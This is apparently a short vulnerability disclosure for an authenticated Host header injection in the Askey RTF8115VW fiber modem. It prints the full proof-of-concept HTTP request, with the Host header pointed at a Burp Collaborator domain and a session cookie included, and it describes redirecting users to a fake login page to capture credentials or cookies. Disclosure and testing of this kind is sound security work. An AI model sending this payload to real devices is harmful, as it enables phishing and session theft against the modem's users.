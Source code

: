 **Authenticated Host Header Injection - Askey Internet Fiber Modem**

Vendor: **Askey**   
Software Version: **BR_SV_g11.11_RTF_TEF001_V6.54_V014**  
Model: **RTF8115VW**   
Vulnerable Header: **Host**  
Not tested in other model/version.   

Impact: An attacker could take advantege on that vulnerability to redirect user to a fake Login page in order to extract his credentials, or cookies.

The Final Request
```
GET / HTTP/1.1
Host: kay4tb35bh55y38n8h4teim21t7jv8.burpcollaborator.net
Cookie: _httpdSessionId_=7924107467ea5838a196b65306ca7236
Upgrade-Insecure-Requests: 1
Referer: http://x.x.x.x/cgi-bin/te_logout.cgi
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Connection: close
Cache-Control: max-age=0
Accept-Encoding: gzip, deflate
```





![Alt text](/hostHeaderInjection.jpg?raw=true "Optional Title")
 
